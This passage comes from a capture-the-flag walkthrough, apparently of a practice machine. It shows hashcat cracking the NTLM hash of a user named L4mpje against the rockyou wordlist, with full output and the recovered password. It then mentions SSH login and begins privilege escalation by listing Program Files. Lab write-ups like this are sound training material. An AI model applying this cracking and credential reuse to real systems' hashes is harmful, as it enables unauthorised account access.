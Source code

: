 We got L4mpje hash, let's crack it using `hashcat`

```terminal
$ hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

26112010952d963c8dc4217daec986d9:bureaulampje    
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NTLM
Hash.Target......: 26112010952d963c8dc4217daec986d9
Time.Started.....: Tue Mar 14 20:10:53 2023 (5 secs)
Time.Estimated...: Tue Mar 14 20:10:58 2023 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2004.9 kH/s (0.41ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 9396224/14344385 (65.50%)
Rejected.........: 0/9396224 (0.00%)
Restore.Point....: 9392128/14344385 (65.48%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: burrote -> burbank105

Started: Tue Mar 14 20:10:16 2023
Stopped: Tue Mar 14 20:11:00 2023

```

With the password, let's ssh to the target.

![](3.png)


## **Privilege Escalation**

Checking the installed program on the machine we find something interesting.

```terminal
PS C:\> cd '.\Program Files (x86)\'                                                                                             
PS C:\Program Files (x86)> ls                                                                                                   


    Directory: C:\Program Files (x86)                                                                                           


Mode                LastWriteTime         Length Name                                                                           
----                -------------         ------ ----                                                                           
d-----        16-7-2016     15:23                Common Files                                                                   
```